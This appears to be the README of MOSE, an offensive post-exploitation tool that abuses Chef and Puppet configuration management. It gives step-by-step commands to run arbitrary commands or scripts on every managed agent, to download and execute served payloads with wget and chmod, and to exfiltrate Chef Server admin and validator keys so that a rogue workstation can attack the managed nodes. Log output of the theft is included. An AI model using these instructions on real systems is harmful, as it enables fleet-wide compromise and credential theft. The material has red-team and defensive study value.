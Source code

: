 ## Instructions to run a command
This will allow you specify a command that will be run on all target agents.

1. Run MOSE with the following options:
```
./mose <CM target> -c <command>
```
For example:
```
./mose chef -c "echo HELLO >> /tmp/friendlyFile.txt"
```

2. On the target, download the payload that is being served (assuming you opted to have MOSE serve it for you) and give it execute permissions.

3. Run the payload:
```
./<CM target>-<CM OS>
```
For example:
```
./chef-linux
```

If you want to clean up after you're done, run the payload again with the `-c` option.

## Instructions to upload and run a file
This will allow you to specify a script or a binary that will be run on all target agents.

1. Run MOSE with the following options: 
```
./mose puppet -u <name of file>
```
For example:
```
./mose puppet -u /tmp/notevil.sh
```

2. On the target, download the payload that is being served (assuming you opted to have MOSE serve it for you) and give it execute permissions.

3. Extract the payload:
```
tar -vxf files.tar
```

4. Run the payload:
```
./<CM target>-<CM OS>
```
For example:
```
./puppet-linux
```

If you want to clean up after you're done, run the payload again with the `-c` option. For example:
```
./puppet-linux -c
```

## Instructions to run against a Chef Server
If you land on a Chef Server (as opposed to a Chef Workstation), this will allow you to steal the files that you'll need to generate a workstation of your own and use it to attack the assets managed by the target Chef Server.

1. Run MOSE with the following options: 
```
./mose chef -c <command> -l <your ip address> -r <chef server hostname>:<chef server IP>
```
For example (using the [vagrant test environment](https://github.com/master-of-servers/chef-test-lab/tree/master/vagrant)):
```
./mose chef -c "touch /tmp/helloserver.txt && echo Hello, I am a file created by MOSE for Chef Server. >> /tmp/helloserver.txt" -l 192.168.58.29 -r chef-server:10.42.42.10
```

2. On the Chef Server, download the payload that is being served (assuming you opted to have MOSE serve it for you) and give it execute permissions.
For example (using the [vagrant test environment](https://github.com/master-of-servers/chef-test-lab/tree/master/vagrant)):
```
wget http://192.168.58.29:8090/chef-linux
```

3. Make it executable:
```
chmod +x chef-linux
```

4. Run the payload:
```
./chef-linux
```

5. Back on your machine, answer the prompts:
```
2020-09-26T18:30:59Z MSG : Is your target a chef workstation? [Y/n/q]
n
2020-09-26T18:31:09Z MSG : Is your target a chef server? [Y/n/q]
Y
2020-09-26T18:31:10Z MSG : Listener being served at http://192.168.58.29:9090/chef-linux for 60 seconds
```
6. Wait for the files that you need to take to be exfilled. 
For example:
```
2020-09-26T18:31:13Z INF : Successfully uploaded my_org

2020-09-26T18:31:13Z INF : Successfully exfilled admin.pem
2020-09-26T18:31:13Z INF : Successfully exfilled my_org-validator.pem

2020-09-26T18:32:10Z INF : Web server shutting down...
```
7. Eventually you will be dropped into the workstation, and you proceed with your attack from there as you would normally.
For example:
```
2020-09-26T18:34:41Z INF : Running knife ssl fetch, please wait...
2020-09-26T18:34:47Z MSG : The following nodes were identified: chef-agent-1 chef-agent-2 chef-agent-3
2020-09-26T18:34:47Z MSG : Do you want to target specific chef agents? [Y/n/q]
```

**Note:** You will get an error about the stealing of secrets - reason being that you don't have any on this workstation (you just stood it up yourself):
```
2020-09-26T19:06:38Z ERR : Error while getting the vault list error="/opt/chefdk/bin/knife [vault list] ERROR: Chef::Exceptions::InvalidDataBagPath: Data bag path '/root/.chef/data_bags' is invalid\n exit status 100"
```